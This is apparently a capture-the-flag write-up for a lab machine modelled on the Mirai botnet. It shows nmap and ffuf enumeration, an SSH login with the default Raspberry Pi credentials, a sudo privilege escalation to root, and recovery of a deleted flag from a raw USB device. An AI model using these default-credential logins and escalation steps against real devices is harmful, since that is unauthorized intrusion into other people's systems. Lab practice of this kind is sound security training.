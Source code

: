 Target: 10.10.10.48

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.48              

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-19 21:11 PDT
Nmap scan report for 10.10.10.48
Host is up (0.52s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.48/FUZZ

admin                   [Status: 301, Size: 0, Words: 1, Lines: 1]
versions                [Status: 200, Size: 18, Words: 1, Lines: 1]
```

checking 10.10.10.48

![index](mirai1.png)

checking /admin

![/admin](mirai2.png)


### Findings:Looking for attack vectors


[Mirai botnet attack blog](https://www.csoonline.com/article/3144200/expect-more-iot-botnet-attacks-mirai-source-code-now-freely-available.html)


## Foothold:

accessing using default username:password (pi:raspberry)
```
$ ssh pi@10.10.10.48   

pi@raspberrypi:~ $ id

uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
```

```
pi@raspberrypi:~ $ cat Desktop/user.txt

<redacted>
```


## Priv Escalations:

```
pi@raspberrypi:~ $ sudo -l

Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

```
pi@raspberrypi:~ $ sudo bash

root@raspberrypi:/home/pi# id

uid=0(root) gid=0(root) groups=0(root)
```

looking for root.txt
```
root@raspberrypi:~# cat root.txt

I lost my original root.txt! I think I may have a backup on my USB stick...
```

looking for root.txt
```
root@raspberrypi:~# cd /media/usbstick

root@raspberrypi:/media/usbstick# cat damnit.txt 

Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

looking for root.txt
```
root@raspberrypi:/dev# strings /dev/sdb

>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
<redacted>
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```